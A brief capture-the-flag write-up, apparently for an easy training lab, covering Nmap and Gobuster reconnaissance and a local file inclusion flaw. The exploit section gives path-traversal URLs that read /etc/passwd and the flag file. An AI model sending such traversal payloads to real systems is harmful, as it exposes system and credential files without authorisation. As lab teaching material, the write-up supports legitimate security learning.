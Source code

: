 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

[[Hacking]] the [[Website]] .
# Recon
## Nmap

We can use [[Nmap]] to scan the machine IP :

```
    80/tcp open http  
    2222/tcp open ssh
```
# Enumeration
## Gobuster

We can use [[Gobuster]] to enumerate directories :

```
    /Lo-Fi_music
```
# Exploit

For the [[Exploit]] visiting http://IP_TM/Lo-Fi_music and exploring the [[Source Code]] we can easily see that there's [[Local File Inclusion (LFI)]] vulnerability 

so trying `http://IP_TM/?page=../../../../../etc/passwd` we are in and with `http://10.10.48.222/?page=../../../flag.txt`

we have the [[Flag]].